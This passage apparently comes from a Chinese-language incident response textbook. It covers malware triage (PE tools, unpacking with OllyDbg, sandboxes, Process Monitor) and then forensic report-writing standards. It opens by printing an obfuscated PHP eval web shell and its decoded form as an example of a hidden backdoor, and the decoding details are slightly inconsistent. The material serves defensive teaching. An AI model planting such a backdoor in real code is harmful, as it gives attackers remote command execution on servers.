```
     <?php
     eval(base64_decode('JF9QT1NUWyJzZWNyZXRDb21tYW5kIl0='));
     ?>
```

代码乍一看可能看起来无害。一个初学者调查员可能永远意识不到他们需要解码该语句才能找出真正发生了什么。如果我们对字符串 JF9HRVRbInNlY3JldENvbW1hbmQiXQ== 进行 base64 解码，我们得到 $_GET["secretCommand"]。将 PHP 代码中的 base64_decode 函数替换为这段文本后，我们现在有以下代码：

```
     <?php
     eval($_GET["secretCommand"]);
     ?>
```

这段PHP代码可能是一个严重的问题。该代码将执行通过名为secretCommand的HTTP POST参数发送的任何PHP命令。这可能是任何PHP代码，包括exec命令，在服务器上的正常shell中运行命令。想象一下，如果这个eval行被插入到一个大型的PHP文件中，比如说1000行的PHP代码。它很可能不被应用程序维护人员和调查人员注意到。

#### **可移植可执行文件**

由于大多数恶意软件都是某种类型的可执行程序，我们想进一步介绍一些关于检查可移植可执行文件（PE）的信息。如果你发现了一个PE文件，你应该使用一个专门解析PE格式和提供额外信息的工具来进一步检查它。有许多种类的PE文件，其中一些可能会提出重要的分析挑战。你会希望尽早了解这些挑战，以便管理分流过程。例如，知道一个PE文件是否被压缩、使用了加密算法，或者可能知道哪个编译器创建了这个二进制文件都是很有好处的。我们用于此目的的一个流行程序是PEiD。

**在网络上获取它**

[www.softpedia.com/progDownload/PEiD-updated-Download-4102.html](http://www.softpedia.com/progDownload/PEiD-updated-Download-4102.html)[www.softpedia.com/get/Programming/Other-Programming-Files/Kanal.shtml](http://www.softpedia.com/get/Programming/Other-Programming-Files/Kanal.shtml)[www.softpedia.com/downloadTag/PEiD+plugin](http://www.softpedia.com/downloadTag/PEiD+plugin)

如果我们查看前一节的Lab03-02.dll_文件，PEiD告诉我们该文件是使用Microsoft Visual C++ 6.0 DLL编译的（见图15-3）。这些信息很基本，但提供了我们所处理文件的一个总体图像。


运行附加的Kanal加密插件可以检测到使用BASE64编码算法，如图15-4所示。 在某些情况下，我们需要更详细地检查PE的信息。有许多工具可以解析主要的PE数据结构并提供信息视图。我们常用的两个常见工具是PeView和CFF Explorer。


PeView和CFF Explorer都提供了对PE数据结构的深入显示。您可以查看和探索主要PE部分，查看PE的编译时间，查看标准PE特征，查看导入和导出表以及许多其他PE数据结构。PeView提供了一个更基本的界面，但在使某些数据字段更易读（例如编译时间）方面做得更好。CFF Explorer提供了一个更全面的PE视图，适用于32位和64位文件，以及.NET二进制文件。CFF Explorer还包括提取资源、查看依赖项和编辑字段的功能（参见图15-5）。


**上网下载它**

**PeView** [wjradburn.com/software](http://wjradburn.com/software)**CFF Explorer** [www.ntcore.com/exsuite.php](http://www.ntcore.com/exsuite.php)**Dependency Walker** [www.dependencywalker.com](http://www.dependencywalker.com/)

#### **打包的文件**

如果一个可执行文件只包含少量可理解的字符串，或者只有非常少的导入项，那么这个文件可能被打包。打包文件是经过额外处理的可执行文件，通常是为了压缩或混淆代码。这个过程会显著改变文件的内容，但保留相同的功能。修改后的文件可以包含任何组合的压缩、加密、编码、反汇编和其他混淆技术。这些混淆技术，包括新格式的解码方式，可能非常复杂。为了实现这种变化，打包过程通常将原始代码存储在新格式中，并插入执行解码的包装代码。一些常见的打包工具有UPX、Aspack、PeCompact、Petite和Armadillo。让我们看看如何处理打包文件。

一些打包工具是开源的，因此解包工具很容易获取。一个好的第一步是尝试确定使用的打包工具类型。在某些情况下，PEiD可以检测到打包工具类型。如果PEiD指示文件使用UPX打包，你可以简单地下载UPX工具来解包文件。值得快速研究PEiD检测到的打包工具类型，看看是否有简单的方法来处理它。例如，有一些打包工具可以被一些PE分析工具解包，比如PE Explorer可以解包UPX、Upack和NSPack。然而，大多数其他打包工具需要使用调试器进行额外的工作。

在恶意软件分析过程中，你可以使用调试器来尝试解包文件。许多调试器可以转储已加载的文件，有时会提供完整或部分解包的数据。这种技术可能无法处理所有的打包工具，但在许多情况下可以获取至少部分结果。尽管意图是不让恶意软件执行，但只在安全环境中运行调试器。

- 注意：

  你可能已经注意到，这一节是关于静态分析的，但是我们在这里执行了恶意软件。虽然这一步骤在技术上属于动态类别，但唯一的目的是为了解包可执行文件以进行进一步的静态分析。我们在这个时间点上不会观察执行以确定功能。

让我们通过一个例子来演示使用《实用恶意软件分析》中的Lab03-01.exe。我们将使用一个名为OllyDbg的调试器，这是一种常用的用于执行这种技术的调试器。您还需要一个名为OllyDump的插件，可以在OpenRCE网站上获取。

**上网下载OllyDbg**[www.ollydbg.de](http://www.ollydbg.de/)

**OllyDbg插件**[www.openrce.org/downloads/browse/OllyDbg_Plugins](http://www.openrce.org/downloads/browse/OllyDbg_Plugins)

下载OllyDbg和OllyDump插件，并将它们提取到同一个目录中。然后运行OLLYDBG.EXE，主OllyDbg窗口应该会打开。通过打开插件菜单，检查OllyDump插件是否已加载到插件列表中（参见图15-6）。


现在，转到文件 | 打开并打开您怀疑已经打包的文件。OllyDbg将以暂停状态加载文件。有时仅加载文件就足以获取未打包的数据。转到插件 | OllyDump | 转储调试进程。将所有选项保持默认设置，然后单击转储（参见图15-7）。 保存文件，然后使用字符串应用程序检查其内容。将您刚保存的文件中看到的内容与原始文件中的内容进行比较。如果字符串相同，那么该文件可能仅通过加载而未被解包。我们将不得不尝试下一步-让调试器运行该文件。从菜单中选择调试 | 运行。程序将尝试正常运行。 此时可能会出现许多问题-执行可能会崩溃，程序可能会检测到您正在使用调试器并退出，或者程序甚至可能无法运行。无论发生什么情况，请等待执行终止，如状态栏右下角所示，然后通过插件 | OllyDump | 转储调试进程进行转储。将转储保存到新文件中，并像之前一样，将其中包含的字符串与原始文件进行比较。 如果这两个步骤都不成功，您将需要从更有经验的反向工程恶意软件的人那里获得帮助。他们将能够尝试更高级的技术，包括检查代码、设置断点、跳过代码或修改代码，以获取文件的未打包版本。如果有时间，您应该看着他们的肩膀；有许多技术只需要一点练习就不难进行，但它们超出了本书的范围。


### **动态分析**

恶意软件分析的第二个一般类别称为动态分析。在这种类型的分析中，系统监控被放置并执行恶意软件。理想情况下，这种类型的分析应该确认静态分析的任何发现，并揭示有关恶意软件的新事实。有时动态分析非常具有挑战性，主要是由于使恶意软件正确执行的困难。然而，当恶意软件执行时，你通常会在较短的时间内发现更多信息，与静态分析相比。

您可以通过使用自动化分析工具或自己手动执行分析来执行动态分析。自动化工具可以节省时间，不需要专业技能，但并不总是能够产生有用的输出。手动分析要求您具备使用监控工具的技能，但提供了更灵活的方式来使恶意软件正确执行。

由于仅仅执行恶意软件样本可能很难发现所有功能，动态分析也有其局限性。例如，恶意软件不一定包含使用信息，并且可能需要在命令行上使用“密码”来启用某些代码执行路径。想想一些知名的文字处理应用程序；仅仅因为您可以运行该应用程序并不意味着您了解、找到或使用其所有功能。

#### **自动化动态分析：沙箱**

自动化动态分析工具，或称为沙箱，非常简单易用。您输入恶意软件样本，经过一段分析时间后，系统提供一个分析报告。有许多公开可用的沙箱可以使用，其中GFI沙箱是较受欢迎的选择之一。此解决方案还允许您在其网站上免费提交恶意软件样本。使用此免费服务是了解更多关于自动化动态分析解决方案的好方法，但这可能并不总是适合日常工作的正确解决方案。您可以选择将他们的服务引入内部，但这对大多数组织来说可能是禁止成本的。

**在网上找到它 GFI沙箱** [www.threattrack.com](http://www.threattrack.com/)

在我们所在的公司，我们并不经常使用任何公开可用的沙箱。有三个主要原因，其中一些您在决定使用沙箱时可能需要考虑。第一个原因是我们与客户签有保密协议。我们不能自行决定将客户数据提交给第三方进行分析。您可能处于类似的位置，但可能是出于法律、政策、监管或合同原因。第二个原因是，通常情况下，自动化分析无法为我们提供所需的答案。例如，知道恶意软件样本创建了一个注册表键或文件是一个好的开始，但更重要的是要知道为什么以及如何使用它。第三个原因是，沙箱解决方案演变缓慢。您可能面临大量新的恶意软件家族，可能需要更改自动化分析工作流程。如果没有对沙箱的所有权和控制权，您将等待软件开发人员管理新功能。我们最终建立了自己的定制内部自动化分析解决方案。我们能够不断调整该解决方案，以更有效地执行恶意软件并为我们提供重要的数据点。

#### **手动动态分析**

手动动态分析需要对操作系统加载和执行程序有一般的了解，以及使用监控工具的一些技能，例如Microsoft的进程监视器。手动执行动态分析可以提供更大的灵活性，但也可能非常耗时。由于本章是关于恶意软件分类的，我们主要关注在最短的时间内获得准确信息。鉴于此，我们不会探讨任何高级的动态分析技术，例如使用OllyDbg逐步执行和分析汇编代码。相反，我们坚持探讨我们认为可能提供“快速成功”的主题。

#### **使恶意软件运行**

正如我们在前面的部分中提到的，有时动态分析的主要挑战是使恶意软件执行。帮助确定如何执行恶意软件样本的最佳方法之一是了解发现它的上下文。作为调查过程的一部分，最初发现恶意软件的人员应该记录上下文。如果没有提供上下文，您应该要求处理恶意软件的相关方提供。如果没有这个上下文，执行恶意软件可能会很困难，甚至不可能。

我们处理的大部分恶意软件样本都是基于Win32的PE二进制文件。常见的二进制形式是具有“.exe”扩展名的可执行文件和具有“.dll”扩展名的动态链接库。在恶意软件分类中，我们通过在命令提示符中输入文件名并按Enter键来运行可执行文件。虽然您可以在Windows资源管理器中双击文件，但我们更喜欢不让资源管理器处理文件关联并可能采取一些不需要的操作。对于DLL，加载它的方法取决于它的设计目的。您可以尝试使用rundll32加载DLL，该工具可加载DLL：

```
     C:\\>rundll32 sample.dll
```

在某些情况下，一个作为后门的动态链接库（DLL）可能具有一个导出函数，用来以持久的方式安装恶意软件。检查导出函数的名称并查看是否有任何异常是很有用的。也许你遇到了一个包含名为“Deploy”的导出函数的样本。在这种情况下，你可以尝试运行以下命令：

```
     C:\\>rundll32 sample.dll,Deploy
```

这个命令会加载DLL并调用名为Deploy的函数。这可能会起作用，也可能不会，但通常尝试那些暗示可能会发现有关恶意软件有用信息的函数名是个好主意。在其他涉及DLL的情况下，该文件可能被设计为由特定服务加载，例如Winlogon，以替换标准的Microsoft图形身份验证和认证（GINA）DLL。在这些情况下，您需要重新配置虚拟机以匹配攻击者对受害者系统所做的更改。有时，通过对DLL进行静态分析和受感染系统的上下文信息的分析，很难弄清楚。如果静态分析和受感染系统提供的上下文信息无法帮助解决问题，您将需要寻求协助或进行自己的研究以继续前进。

#### **运行时监控**

一旦你成功执行或加载了恶意软件，你会想要监控它所采取的任何行动。我们感兴趣的常见事件包括进程创建、文件创建或更改、注册表键创建或更改以及网络活动。监控这些事件的目标是让你对恶意软件的行为有一个大致的了解，并产生线索。例如，如果恶意软件创建了一个文件，你应该通过检查所创建的文件的内容来跟进。一旦你跟进了通过监控过程产生的线索，你应该对恶意软件的功能有一个清晰的了解。

第一步是选择一个监控工具或一组工具。理想情况下，监控工具应该提供一种过滤和记录收集的数据的方法。其中最好的免费工具之一是微软的Process Monitor。Process Monitor是一个较新的工具，将SysInternals的至少四个独立旧工具的功能合并为一个工具。Process Monitor将监控进程、文件、注册表和网络活动，并允许您根据许多不同的条件筛选事件。例如，您可以创建一个仅监视具有特定名称或特定路径的进程的过滤器。

**在网络上获取Microsoft Process Monitor** [technet.microsoft.com/en-us/sysinternals/bb896645.aspx](http://technet.microsoft.com/en-us/sysinternals/bb896645.aspx)

一旦你在系统上安装了Process Monitor，就可以继续下一步-监控一个进程。当你启动Process Monitor时，它会立即开始记录事件。你可以通过点击放大镜菜单图标、选择File | Capture Events或按下ctrl-e来停止捕获。然后通过选择Edit | Clear Display或点击“Clear”图标（该图标位于放大镜右侧第二个图标）来清除显示。现在我们准备配置Process Monitor，仅跟踪我们感兴趣的进程。

通常，我们会根据进程名称（也就是恶意软件的文件名）过滤事件。要打开过滤器窗口，请选择Filter | Filter ...菜单。对于疑似恶意软件命名为bash.exe的情况，我们将为“进程名称是bash.exe”创建一个新的过滤器。从第一个下拉菜单中选择Process Name，然后在第三个文本框中输入**bash.exe**。然后点击添加。过滤器窗口现在应该有一个顶部条目，并且旁边有一个绿色的勾号，如图15-8所示。

然后点击确定保存过滤器。Process Monitor不会捕获恶意软件启动的其他进程的事件，因为我们是基于文件名进行过滤的。然而，我们会看到创建了一个进程，并且可以添加或修改过滤器，因此Process Monitor会捕获我们感兴趣的所有内容。 现在设置了过滤器，是时候启动监控并执行可疑文件了。选择File | Capture Events开始监控。继续执行文件，并在Process Monitor窗口上留意事件，因为它们应该立即出现，并且看起来与图15-9中所示的类似。


如果事件没有立即显示出来，您应该仔细检查过滤器，并确保进程监视器处于捕获模式。我们的经验是，进程监视器是一个非常可靠的工具，通常当我们遇到问题时，都是因为我们犯了一些错误。 一旦进程监视器开始滚动事件，您可能会注意到有数百个、甚至数千个、甚至数万个事件。逐个审核它们不是一个好的时间利用方式，所以您需要使用一种技术来选择一些子集进行初始检查。在进程监视器显示中有一列名为“操作”的列。该列显示被监视程序所调用的系统调用。我们通常寻找那些更有可能帮助我们发现有关恶意软件的重要信息的操作。如果没有更好的线索，WriteFile、RegCreateKey和RegSetKey操作是一个很好的起点。这些操作与向文件写入数据以及创建和写入数据到注册表键相关。您可以通过过滤这些操作或手动滚动事件来找到这些操作。


- 注意：

  你可能会注意到有很多的CreateFile操作，不要误解为实际的文件创建。CreateFile用于创建或打开文件句柄。所以在很多情况下，CreateFile操作被用于读取文件。

在你开发进一步调查的过程中，你可能需要一些额外的工具来收集关于特定项目的更详细信息。我们想特别指出三个工具：其中两个用于收集有关运行进程的更多信息，另一个用于捕获网络流量。市场上有很多其他可能有用的工具，我们只是提供一些我们常用的工具的例子。

这两个与进程相关的工具是微软的Process Explorer和Handle工具。Process Explorer提供了一个层次化的运行进程树视图，包括许多运行时参数的详细信息（参见图15-10）。 一个特别有用的功能是能够搜索进程句柄中的字符串。例如，你可能会发现一个键盘记录器正在将数据记录到一个名为keylog.txt的文件中，但你不知道是哪个进程在写入它。你可以使用Process Explorer在所有进程中搜索句柄（查找 | 查找句柄或DLL）以找到文件名为keylog.txt的进程，从而确定哪个进程打开了该文件（参见图15-11）。 Handles是一个基于命令行的工具，显示所有进程的所有句柄。在搜索任何看起来可疑的句柄时，Handles有时是有用的，例如用户配置文件临时目录中打开的文件。


**在网络上获取** Microsoft进程资源管理器 [technet.microsoft.com/en-us/sysinternals/bb896653.aspx](http://technet.microsoft.com/en-us/sysinternals/bb896653.aspx)

**句柄**[technet.microsoft.com/en-us/sysinternals/bb896655.aspx](http://technet.microsoft.com/en-us/sysinternals/bb896655.aspx)

第三个工具是Wireshark网络捕捉和协议分析应用程序（见图15-12）。如果你发现正在分析的恶意软件尝试建立网络连接，你可能想使用Wireshark（第9章中讨论），来捕捉和分析流量。

**在网络上获取** Wireshark [www.wireshark.org](http://www.wireshark.org/)

随着你在动态分析方面获得经验，你可能会发现其他在本章未涉及的工具和技术。如果发生这种情况，太好了！我们成功启动了你的恶意软件审查技巧！


### **那又怎样？**

在大多数事件中，攻击者使用恶意软件或其他工具来完成他们的任务。了解这些工具的功能将有助于您确定攻击者正在做什么以及您可能如何应对。本章介绍了基本的静态和动态分析方法，我们认为这些方法将帮助您快速识别和确定可疑恶意软件的功能。即使这些技术不起作用，我们也介绍了一些实践方法，可以在您尝试时帮助您和您的网络保持安全。

### **问题**

1. 静态分析和动态分析技术的主要区别是什么？各自的优势是什么？
2. 在构建安全的初步分析环境时，应该做出哪些常见的配置选择？如果您要创建这样的环境，您会准备哪些工具用于静态和动态分析环境？
3. 在您调查的系统上，您发现一个您怀疑是恶意软件的文件。您将如何安全地获取该恶意软件的副本并将其放置在您的初步分析环境中？解答涵盖对活动系统和硬盘的取证镜像进行调查。
4. 给定以下信息，描述您接下来将如何更多地了解您正在查看的文件：
   1. 在主要数据库中进行的MD5哈希查找结果为否定。
   2. 杀毒软件扫描未显示威胁。
   3. 该文件包含很少可读的字符串，其中大部分是无关信息。
5. 您正在对Windows中的一个文件进行动态分析，并且来自Process Monitor的输出显示：
   1. 恶意软件调用了SetWindowsHookEx函数。
   2. 在用户的应用程序数据临时文件夹中创建了一个名为bpk.dat的文件。
   3. 该文件似乎以随机间隔被写入，但在系统使用时似乎更频繁。
   4. 您检查了文件内容，并发现了无法读取的二进制数据。
6. 您可以提出关于该文件功能的哪些理论？

## 第16章 **报告撰写**

**一位**智者曾经说过：“如果没有记录，那就没有发生。”在计算机安全调查中，这句话是所有从业者应该努力遵守的黄金法则。撰写准确、完整、可读的报告，及时解答问题，既非常重要又是一项巨大的挑战。这种挑战有时会导致组织在事故发生时做出关于文档的不良决策。然而，也许有一天，一个组织或个人的命运取决于报告的内容。因为我们无法预测未来，我们撰写的所有报告都必须符合一组最低要求-没有例外。当那个审判的日子来临，并且涉及到你写的报告时，你会安心地知道你的报告将经得起审查。在本章中，我们将重点分享我们在报告撰写方面的经验教训。

### **为什么要撰写报告？**

你可能会对报告撰写的必要性提出的第一个问题是为什么需要这样做。有时候原因很简单-可能存在法律或政策要求，或者你的上司要求你创建一个报告。其他时候，可能没有充分的理由来撰写报告。然而，我们建议您在分析证据或应对事故时，无论规模大小，无论是否有发现，都要创建报告。有些人可能会对这种方法的有用性提出质疑，但我们认为这是事件响应和计算机取证的核心部分。让我们花点时间详细解释一下这个立场。 从基本层面上说，我们的工作是检查证据以回答问题。通常问题的来源是法律或行政程序，这些程序通常是敏感的，并且可能对人们的生活产生重大影响。我们需要尽力确保答案的正确性，并将其准确清晰地传达给目标受众。有些人可能认为这是法庭科学的基本定义-他们是正确的。在这种情况下，如果我们不创建报告，可能被认为是疏忽的。创建报告还有其他不太严重但同样重要的原因。撰写报告强迫你思考自己的工作。有时在纸上记录所有事实可以帮助你发现之前没有注意到的联系，甚至揭示出错误。创建文档的过程可能是帮助你破解案件的关键。你还可以在多个可交付成果中使用报告的内容。例如，当你记录了发现时，更容易提供给状态更新、传递知识和进行培训。有些情况可能要求不进行书面记录。最常见的情况是当法律顾问对发现有关担忧时。在这种情况下，可交付成果通常是口头报告。每当你的案件涉及法律人员时，一定要在开始任何工作之前讨论报告指南和可交付成果。让法律人员了解你的标准文档程序，这样他们就有机会在案件开始时发现任何潜在问题。

- 小心：

  取证和事件响应报告受到严密审查。这给报告撰写人员带来了极大的压力，要求他们“做到正确”。由于调查的早期阶段很少能揭示出所有相关事实，我们建议您在创建中间报告时将其标记为“草稿”。否则，后续的更改或添加可能会被视为您的无能或欺骗行为。

### **报告标准**

无论是为了上述部分列出的原因之一而撰写报告，还是因为其他原因，您都需要建立报告标准，以帮助确保您创建的报告具有质量。在本节中，我们列出了报告的高级目标，并提供了我们的经验中有效的具体建议，以帮助实现这些目标。

- **聚焦** 列出并回答相关问题。避免离题讨论。主要问题及其答案应该容易找到；读者不应该从报告的不同部分拼凑信息。高级目标是确定并满足报告的要求或目标。
- **易懂** 根据受众编写，并使用最少的词语来有效传达发现。例如，如果报告主要面向高层管理人员（如首席执行官或首席安全官），您必须编写报告，使其对他们易于理解和有用。这可能要求您编写执行摘要或其他部分，以有效将您的发现传达给该受众。
- **坚持事实** 提供明确和正确的信息。避免容易被误解或主观的术语或短语。始终仔细检查你的陈述是否得到事实证据的支持并与之一致。不要混淆事实和观点。
- **及时** 在合理的时间范围内完成报告。在事故发生期间，及时的报告可能提供有助于防止对组织造成严重损害的信息。确保及时报告的最佳方法之一是边分析边撰写。不要等到完成分析才开始记录您的发现。
- **可重现** 报告中的结果应该可以由第三方完全重现。包括第三方重现您的发现所需的信息。例如，您可能报告说您在一次检查中恢复了10个RAR文件。如果您不包括有关如何恢复文件以及它们在磁盘上的位置的详细信息，第三方可能无法重现您的发现。描述不需要很长；您可以简单地说明您在未分配空间中搜索了标准RAR文件头部的位置，十六进制序列为0x52 0x61 0x72 0x21 0x1A 0x07 0x00。如果您知道案件敏感且可能需要专家证词，请考虑这一点-您可能需要包含更多细节。

#### **报告风格和格式**

我们将在本章中讨论许多个别的建议，但总的来说，报告应聚焦、准确和简明。换句话说，报告应明确回答所提出的问题，并用尽可能少的词语。鉴证报告不是艺术作品，也不是智力竞赛。鉴证报告是一个基于事实的发现报告，任何观点都必须清晰标识，并由报告中的事实支持。 我们有时会得到反馈，认为我们的标准似乎是武断的，难以遵循，甚至与常识相冲突。虽然我们的一些建议与您过去的经验可能非常不同，但它们绝对不是武断的，甚至与我们处于同样情况的其他人共享-撰写大量技术报告的人。我们特别赞赏的写作指南之一是由伦敦大学玛丽女王学院电子工程与计算机科学学院的Norman Fenton撰写的名为“Improving Your Technical Writing Skills”的文件。Fenton先生的文件重复了我们提出的许多观点，并增加了一些其他主题，并包含了一系列非常有帮助的示例。

- **GO GET IT ON THE WEB**

  [www.eecs.qmul.ac.uk/~norman/papers/good_writing/Technical writing.pdf](http://www.eecs.qmul.ac.uk/~norman/papers/good_writing/Technical writing.pdf)

我们鼓励您阅读他的文件，并在本章的基础上努力采纳这些指南-尽管可能具有挑战性，但您一定会因此撰写出更好的报告。

我们讨论的样式指南并不是不能打破或改变的硬性规则。样式指南的主要目的是增加报告的可读性。在某些情况下，指南可能恰恰相反。作者有责任识别这些情况并相应调整。具体的样式建议包括：

- **使用主动语态** 使用动作-动词结构构成的句子通常更清晰简明。被动语态的版本总是需要更多的词，这会增加读者的负担。例如，以下主动语态句子总共五个词：“攻击者窃取了数据。”如果我们将句子转换为被动语态，就需要额外两个词，使句子变为七个词：“数据被攻击者窃取。”有些报告作者会试图通过省略动作者并写“数据被窃取。”来弥补这一点。尽管这是一个更短的句子，但它不理想，因为它不够具体。

- **使用过去时态** 一般来说，在调查报告中，最好使用过去时态。您记录的所有事件都发生在过去，所以使用过去时态是最合理的。

- **使用简洁的句子** 我们不确定记录中的记录是什么，但是在一些报告中，我们看到有超过40个字的句子。如果一个句子在20个字左右，您就进入了危险区域。30个或更多字的句子可能需要重新改写。

- **具体说明** 如果您知道或者可以确定确切的数量，请避免陈述“目录中存在几个文件”。一般情况下，避免使用“许多”，“多个”，“几个”或其他与数量相关的词，因为它们是主观的。使用具体的数字！此外，避免将简单事实分开以制作简短的句子。例如，陈述“一个名为kout.dat的文件包含了键盘记录器的输出”而不是“键盘记录器将其输出放入了一个文件中。该文件的名称是kout.dat。”

- **陈述您所做的事情，而不是您无法做的事情** 当发现结果为负面时，使用陈述来解释您做了什么以及结果如何。避免使用“无法恢复文件”或“无法...”等陈述。如果您不说明为什么无法做某事，这些短语可能被误解为无能的表现。例如，与其说“分析师无法恢复已删除的文件”，不如陈述“操作系统重用了已删除文件的空间，使已删除的文件无法恢复。”

- **使用过渡语句** 我们发现，如果按照“先说你要说的，然后说出来，最后总结你所说的”的概念编写报告，阅读报告会更容易。基本上，如果您为读者提供引导，他们更容易消化新信息。例如，不要只列出一个目录中找到的一些文件并描述它们，而是在段落开头说这个段落将提供有关特定目录中三个文件的详细信息。这种写作风格通常使报告更容易阅读。

- **正确使用缩略语** 使用缩略语是节省空间的好方法，但请确保第一次使用时将其拼写出来。即使是“常识”缩略语也应该拼写出来，因为同一个缩略语可能代表多个不同的事物。例如，DFS可能代表分布式文件系统，但也可能是Discover Financial Services或Dynamic Frequency Selection。此外，请确保正确拼写缩略语-进行调查研究。例如，DNS代表域名系统（而不是服务器或服务）。

- **避免行话和含糊不清的词语** “窃取”一词是计算机安全行话，我们在报告中避免使用它。更合适的术语可能是“数据盗取”，这是每个人都能理解的术语。我们还避免使用含糊不清的词语，例如“受到威胁”。陈述一个系统“受到威胁”与医生说你“生病”几乎是等价的。你可能已经知道了。如果您计划了解和治疗这种情况，您需要了解具体情况。确保在报告中包含这些具体细节。

- **一致使用名称** 在报告中选择适当的标识并始终使用它们。如果您决定将计算机称为“系统”，在其他术语之间切换可能会引起混淆。例如，您可能会在“系统”的位置使用“主机”或“节点”。在报告的后面，您可能需要讨论一种树状数据结构。在那种情况下，“节点”一词具有完全不同的含义。

- **避免非正式语言** 避免使用非正式短语，例如使用“checked out”代替“examined”，“attacker got more access”代替“attacker increased their access”，或使用“seemed funny”代替“was anomalous”。报告不是发给朋友的电子邮件或短信；它们是代表您和您的组织的正式文件。

- **明确标明观点** 观点在某些情况下很有用，例如当您预计读者可能没有经验意识到一系列事件的最可能解释时。有时，客户可能直接要求您的意见。当在报告中提出观点时，请确保清楚地指示该陈述是个人观点。始终用在报告中提供的事实支持观点，这样读者就可以看到您观点的基础。没有事实支持的观点不适合出现在取证报告中。

> note: 
> 在美国的法律系统中，包含观点的报告被认为是“专家报告”。这样报告的作者被视为“专家证人”，而且报告和报告的作者都必须符合法庭接受的资格要求。本章提供的建议将有助于满足报告要求，但并不能完全保证。大多数人在个人要求方面可能会有所不足，比如近期的出版物和审判或证词经验。除非您确信自己符合条件，最好避免在将成为法律程序一部分的报告中提出观点。然而，在某些情况下，这些观点可能是案件需要的关键。如果您认为某个特定的观点是有效且对案件至关重要的，而且您不愿意或不具备作为专家证人的资格，您应该寻求合格专家的协助。

除了适用于内容的样式规范之外，还有适用于格式的规范。格式规范适用于报告的展示方面，例如字体、日期表示、图表等。以下是最常见的格式化区域：

- **使用一致的字体和间距** 选择一种能提高可读性的字体和间距，并在所有报告中坚持使用这种标准。使用多种字体是可以的，只要使用方式一致，例如为图表或源代码摘录选择等宽字体。不要使用奇怪或不专业的字体，例如Comic Sans和KaiTi。有些报告撰写人可能想使用个人偏好，但法庭鉴定报告不是个人创造力的地方。
- **日期和时间** 选择一种用于表示日期和时间的标准，并加以执行。您的选择应该以完全明确的格式表示日期和时间。我们建议将日期表示为“Month DD, YYYY”，例如2012年9月28日。绝对不应使用“05/05/05”这样的表示方式，因为它可以被解释为至少三种不同的方式。我们以UTC时区和24小时制的“军事”样式（例如，17:03:12 UTC而不是5:03:12 p.m. UTC）记录所有时间。强烈建议不要使用本地时区或带有上午和下午标记的“民用”样式时间，因为这些格式不可避免地会导致事件关联和时间转换的问题。此格式化规范仅适用于您编写的日期-不要更改作为证据的日期或由取证工具创建的日期，例如。
- **标准化元数据报告** 创建表格或其他标准格式来记录与发现相关的元数据。例如，如果检测到相关文件，则应以相同的确切格式记录文件的名称、时间戳、路径、MD5和其他元数据，包括每次报告所报告的字段。
- **使用标题和引用** 我们使用Microsoft Word来编写报告，它具有创建链接标题和引用的内置功能。我们在所有表格和图表底部放置一致的标题，并在叙述中创建对它们的引用。引用应解释表格或图表内容-不要让读者去确定您正在讨论的是哪个表格。
- **适当使用表格和图表** 当您需要展示由多个记录和多个属性组成的发现时，表格格式通常是最有效的。例如，表格是展示Web浏览器历史记录的有效方式。如果您需要包含文件内容摘录，请考虑使用具有固定宽度字体和边框的图表。为表格和图表制定标准化的格式，包括字体、边框和底纹。记得包含标题，并在报告叙述中引用这些标题。
- **适当时使用项目符号和编号列表** 讨论长列表的段落往往难以阅读。在某些情况下，将段落转换为编号或项目符号列表将使信息更易读。

#### **报告内容和组织**

您应为组织所产生的每种主要报告类型开发一个报告模板。如果考虑使用多个模板，请确保有对额外工作量的正当理由。次要差异通常可以在模板注释中解决。在我们所在的公司，作为事件响应的一部分，使用了三种常见的模板：整体事件模板、一般分析模板和恶意软件分析模板。我们将讨论整体事件报告以及分析报告的常见结构。在本章中，我们将所有分析报告-取证检查、实时响应、恶意软件等-放在一个类别中。

整体事件模板用于报告整个事件，其中包括在事件期间创建的所有分析或其他报告。由于事件报告应该对广泛的受众有用，它包含了高层次的总结、中层次的细节和关联性，以及详细的个别分析报告。整体事件报告往往更困难且耗时较长。它们是包含调查结果以及整治建议的综合文档。以下部分在大多数事件报告中都很常见：

- **标题页和目录** 事件报告需要一个标题页。标题页列出了受影响组织的信息，通常包括事件编号或名称的简要描述、发布日期以及执行调查的组织的名称。如果需要，标题页还包括警告和保密标记，例如“特权和机密”。
- **背景** 事件背景应描述事件是如何被发现的，发现了什么，响应是什么，并列出调查的目标。背景通常只有两段。背景应指定工作的持续时间，包括起止日期以及谁资助了工作。
- **发现** 事件发现应以非常清晰和简明的方式直接回答调查目标。发现应是对中层次发现部分中所呈现信息的摘要。由于这些发现是所谓的执行摘要的一部分，它们应该能够被广泛的受众所阅读。事件发现通常不超过一页。
- **建议** 建议被分为短期和长期。短期建议是预期解决当前事件的行动。它们可以在短时间内完成，并消除当前的威胁。长期建议将提升组织的整体安全形势，并有助于预防未来的事件。
- **中层次部分** 中层次部分是将多个个别分析报告的发现进行汇总、解释和总结的地方。中层次部分的名称各不相同，但通常与调查问题相关。中层次部分提供了一个“大局观”，但仍包含一些技术细节。中层次部分的信息直接由个别分析报告中呈现的证据支持。
- **个别分析报告** 此部分包括完整的分析报告，例如取证、实时响应和恶意软件报告。分析报告是整个事件报告中所有发现的基础。
- **附录** 附录最常用于包含长列表和摘录，例如日志文件内容和文件列表，这些内容在主体报告中会占用多个页面。任何超过一页的表格或图表往往会使报告更难读。附录是包含这些列表的理想位置。取证检查或恶意软件报告等分析报告侧重于检查单个证据来源（例如硬盘或一组日志文件）的结果。我们进行许多特定类型的分析，但大多数分析报告都采用相同的基本结构。例如，取证检查报告和实时响应报告在结构上非常相似。两者之间的主要区别在于部分标题名称的微小变化。唯一的例外是恶意软件报告，因为它们通常包含与恶意软件分析结果独特相关的非常具体的部分名称。以下部分在大多数分析报告中都很常见：
- **标题页和目录** 这些可选部分在独立或大型分析报告中更常用。标题页确保读者了解报告主题，并在一定程度上保护不让偷窥的目光看到主要发现。在较大的报告中，目录可帮助读者找到他们更感兴趣的内容。两者都有助于使报告显得更专业。
- **背景** 个别分析报告的背景部分应为所检查的项目提供背景。背景应清楚地描述导致调查的事件是什么。背景还应解释谁收集了证据，您如何获得它，并阐明高层次的分析目标。背景部分不用于记录或引用报告中呈现的发现。
- **发现** 报告中的主要发现应在报告的早期清楚而简明地呈现。每个发现应包含简要的支持证据，并在报告的详细部分中提供更多证据支持。
- **检查的证据** 与任何取证或科学报告一样，编写人必须包含所检查的项目清单。在计算机取证和事件响应中，我们提供了作为分析的一部分所检查的任何证据的清单。
